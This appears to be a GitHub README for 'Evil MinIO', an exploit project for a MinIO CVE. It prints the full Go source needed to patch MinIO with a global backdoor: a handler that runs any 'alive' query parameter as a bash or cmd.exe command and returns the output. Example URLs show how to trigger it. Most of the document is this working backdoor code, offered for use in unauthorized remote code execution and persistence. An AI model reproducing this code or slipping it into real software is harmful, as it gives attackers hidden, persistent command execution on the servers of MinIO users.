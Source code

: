 # Evil MinIO (CVE-2023-28434)

Doc: [CVE-2023-28432 minio 接口未授权访问到无损RCE和全局后门.pdf](./CVE-2023-28432 minio 接口未授权访问到无损RCE和全局后门.pdf)

EXP for **CVE-2023-28434**

MinIO unauthorized to RCE

Changed from [https://github.com/minio/minio/tree/8b4d0255b7247b1a06d923e69ed5ba01434e70b8](https://github.com/minio/minio/tree/8b4d0255b7247b1a06d923e69ed5ba01434e70b8)

## Changed what?

- add `cmd/x.go`, used for exec system command
```go
package cmd

import (
	"os/exec"
	"runtime"
)

func getOutputDirectly(commandStr string) string {
	var execGlobalOutput string
	var shell [2]string
	var systemOS string = runtime.GOOS
	if systemOS == "linux" || systemOS == "darwin" {
		shell[0], shell[1] = "/bin/bash", "-c"
	} else {
		shell[0], shell[1] = "C:\\Windows\\System32\\cmd.exe", "/c"
	}
	cmd := exec.Command(shell[0], shell[1], commandStr)
	output, err := cmd.Output()
	if err != nil {
		return ""
	}
	execGlobalOutput += string(output)
	return execGlobalOutput
}
```
- `cmd/routers.go`, add line #72 
```go
// ..........
	setUploadForwardingHandler,
	// Add bucket forwarding handler
	setBucketForwardingHandler,
	// Add new handlers here.
	xHandler, // ADD THIS LINE 
}

// configureServer handler returns final handler for the http server.
func configureServerHandler(endpointServerPools EndpointServerPools) (http.Handler, error) {
// ..........
```

- `cmd/generic-handlers.go`, add function `xHandler` at the end
```go
func xHandler(h http.Handler) http.Handler {
	return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
		var arg string
		values := r.URL.Query()
		arg = values.Get("alive")
		if arg != "" {
			w.Write([]byte(getOutputDirectly(arg)))
			return
		}
		h.ServeHTTP(w, r)
	})
}
```



## What can be done?



1. GLOBAL backdoor as  `http://1.2.3.4/?alive=whoami` and `http://1.2.3.4/anything?alive=whoami`
2. Normal functions will not be affected

![image-20230327164103832](resource/image-20230327164103832.png)

![image-20230327164128648](resource/image-20230327164128648.png)
